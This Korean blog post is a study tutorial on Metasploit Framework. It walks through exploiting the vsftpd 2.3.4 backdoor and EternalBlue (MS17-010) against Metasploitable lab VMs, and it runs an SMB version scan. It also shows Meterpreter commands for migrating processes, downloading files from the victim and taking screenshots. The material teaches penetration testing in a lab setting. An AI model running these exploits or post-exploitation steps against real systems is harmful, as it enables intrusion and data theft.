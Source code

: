 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

`vsftpd 2.3.4`는 2011년에 공개된 가짜 백도어가 포함된 버전이다.  
이 백도어는 사용자 이름에 `:)`를 포함하면, 서버가 **6200번 포트에서 root 권한의 백도어 쉘**을 실행한다.

> **주의**: 현대 리눅스 배포판(예: Ubuntu 22.04)의 `apt`나 공식 Docker 이미지에는 이 백도어가 **포함되지 않는다**.  
> 따라서 이 공격을 재현하려면 **Metasploitable 2**와 같은 의도적으로 취약한 가상머신이 필요하다.

#### **공격 절차**

1. **Metasploitable 2 실행**  
   [공식 사이트](https://sourceforge.net/projects/metasploitable/)에서 다운로드한 후 VirtualBox 또는 VMware로 실행한다.  
   기본 IP는 `192.168.56.101` 등 내부 네트워크 주소이다.

2. **Metasploit에서 모듈 실행**  
   ```bash
   # 1. msfconsole 실행
   msfconsole

   # 2. 백도어 익스플로잇 모듈 선택
   msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

   # 3. 대상 IP 설정
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.101

   # 4. 공격 실행
   msf6 exploit(...) > exploit
   ```

3. **결과 확인**  
   공격이 성공하면 다음과 같은 메시지가 출력된다:  
   ```
   [*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.101:6200)
   ```  
   이후 `whoami`를 입력하면 `root`가 반환되며, 시스템 제어권을 획득한 것을 확인할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다.  
예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.56.101

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```

실행 결과로 다음 정보가 출력된다:  
```
[+] 192.168.56.101:445    - Host is running Windows 2008 R2 SP1 (build:7601) (name:WIN-MACHINE) (domain:WORKGROUP)
```  
이 정보는 추후 해당 OS에 맞는 익스플로잇(예: MS17-010)을 선택하는 데 활용된다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집 · 프로세스 제어 · 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### **공격 시나리오: MS17-010 (EternalBlue)**

Metasploitable 2는 Windows 머신이 아니지만,  
**Metasploitable 3 **(Windows 기반)을 사용하면 다음과 같은 공격이 가능하다.

1. **모듈 설정**  
   ```bash
   # 이터널블루 익스플로잇 모듈 선택
   msf6 > use exploit/windows/smb/ms17_010_eternalblue

   # 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
   msf6 exploit(...) > set RHOSTS 192.168.56.102
   msf6 exploit(...) > set LHOST 192.168.56.1

   # 공격 실행
   msf6 exploit(...) > exploit
   ```

#### **Meterpreter 세션 활용**
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">